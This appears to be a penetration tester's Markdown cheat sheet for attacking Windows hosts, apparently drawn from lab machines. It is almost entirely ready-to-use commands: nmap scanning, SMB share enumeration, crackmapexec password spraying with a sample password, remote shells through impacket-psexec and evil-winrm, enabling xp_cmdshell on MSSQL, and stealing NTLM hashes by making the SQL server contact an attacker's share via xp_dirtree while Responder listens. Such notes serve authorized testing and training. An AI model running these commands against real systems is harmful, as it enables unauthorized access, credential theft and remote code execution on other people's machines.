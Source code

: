 # Windows Recon & Attack
## Enumeration
### Scans
```bash
sudo nmap -p- -sC -sV $IP --open -oA scans/nmap_Initial
```

### SMB - Uncredentialed
List Shares
```bash
smbclient -L \\\\<IP or hostname> 
```
smbmap
```bash
smbmap -H <IP or hostname> -u null # Test for null access
```
### SMB - Credentialed
CME
```bash
crackmapexec smb 10.10.10.178 -u TempUser -p welcome2019 --shares
```
smbmap
```bash
smbmap -H <IP or Hostname> -u <user> -p <password>
```
smbclient
```bash
smbclient -U <user> //<host or ip>/<share> <password>
```
### Password Spray
CME
```bash
crackmapexec smb 10.10.10.178 -u Usernames.txt -p 'welcome2019' --local-auth --continue-on-success
```
## Remote Shell
### Impacket
Impacket-psexec
```bash
impacket-psexec <user>:<password>@<IP>
```
### Evil-WinRM
```bash
evil-winrm -u <user> -p <password> -i <host or ip>
```
## Attack
### SQL
xp_cmdshell
```powershell
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
xp_cmdshell 'whoami'
```
Hash Stealing with xp_subdris or xp_dirtree
Start Responder on Attack machine
```powershell
EXEC master..xp_dirtree '\\10.10.110.17\share\'
or
EXEC master..xp_subdirs '\\10.10.110.17\share\'
```
Collect hashes from responder
